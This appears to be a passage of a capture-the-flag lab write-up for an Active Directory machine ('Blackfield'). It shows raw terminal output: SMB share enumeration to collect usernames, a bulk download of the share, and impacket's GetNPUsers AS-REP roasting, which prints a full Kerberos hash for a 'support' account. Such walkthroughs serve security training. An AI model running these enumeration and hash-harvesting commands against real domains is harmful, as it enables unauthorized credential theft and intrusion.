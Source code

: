   VOlaosun                            D        0  Wed Jun  3 12:47:12 2020
  VPapalouca                          D        0  Wed Jun  3 12:47:12 2020
  WSaldat                             D        0  Wed Jun  3 12:47:12 2020
  WVerzhbytska                        D        0  Wed Jun  3 12:47:12 2020
  WZelazny                            D        0  Wed Jun  3 12:47:12 2020
  XBemelen                            D        0  Wed Jun  3 12:47:12 2020
  XDadant                             D        0  Wed Jun  3 12:47:12 2020
  XDebes                              D        0  Wed Jun  3 12:47:12 2020
  XKonegni                            D        0  Wed Jun  3 12:47:12 2020
  XRykiel                             D        0  Wed Jun  3 12:47:12 2020
  YBleasdale                          D        0  Wed Jun  3 12:47:12 2020
  YHuftalin                           D        0  Wed Jun  3 12:47:12 2020
  YKivlen                             D        0  Wed Jun  3 12:47:12 2020
  YKozlicki                           D        0  Wed Jun  3 12:47:12 2020
  YNyirenda                           D        0  Wed Jun  3 12:47:12 2020
  YPredestin                          D        0  Wed Jun  3 12:47:12 2020
  YSeturino                           D        0  Wed Jun  3 12:47:12 2020
  YSkoropada                          D        0  Wed Jun  3 12:47:12 2020
  YVonebers                           D        0  Wed Jun  3 12:47:12 2020
  YZarpentine                         D        0  Wed Jun  3 12:47:12 2020
  ZAlatti                             D        0  Wed Jun  3 12:47:12 2020
  ZKrenselewski                       D        0  Wed Jun  3 12:47:12 2020
  ZMalaab                             D        0  Wed Jun  3 12:47:12 2020
  ZMiick                              D        0  Wed Jun  3 12:47:12 2020
  ZScozzari                           D        0  Wed Jun  3 12:47:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 12:47:12 2020
  ZWausik                             D        0  Wed Jun  3 12:47:12 2020

                5102079 blocks of size 4096. 1691612 blocks available
smb: \> 

smb: \> cd AAlleni
smb: \AAlleni\> ls
  .                                   D        0  Wed Jun  3 12:47:11 2020
  ..                                  D        0  Wed Jun  3 12:47:11 2020

                5102079 blocks of size 4096. 1692288 blocks available
smb: \AAlleni\> 


$ smbclient \\\\10.129.155.211\\profiles$
Enter WORKGROUP\ax's password: 
Try "help" to get a list of possible commands.
smb: \> recurse
smb: \> prompt off
smb: \> mget *
smb: \>


```bash
$ impacket-GetNPUsers blackfield.local/ -usersfile users.txt -dc-ip 10.129.155.211
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

...[snip]...

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$support@BLACKFIELD.LOCAL:eab3cec4ef7550d9f7336270ab461115$51de4e1de9d432eb82a3fd26eeacfe2ea6809dc28d91eeac0b3772e99241f3834a1e8c5ec98ec13f04546176ddac6835f1e113441df5c8d1fb6e62c4446477a543471ca5062eb4c6d63e6047f43ac695d71fd7e2b7c98d0b26dbb2b49ca792dd28a11ef7a3a158a75a042e78f5116282ccfbc0087293a0aedc9ea2b38299614d1671546f228a92c2c8456af9b2cf485f5a36f0b74c92bbea557f3136072403345e804e21631a7bc0f9f3e657eaada6b37da2275d2ced68779d4978aacbc0fd6520fe8a386763b10c07c4e1b799f0ba338c98bfc7c719b1f2ae3d55e5663a47698fb3df8e3c764dfd03045d3abdd4f215c3d17db0
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set

...[snip]...
```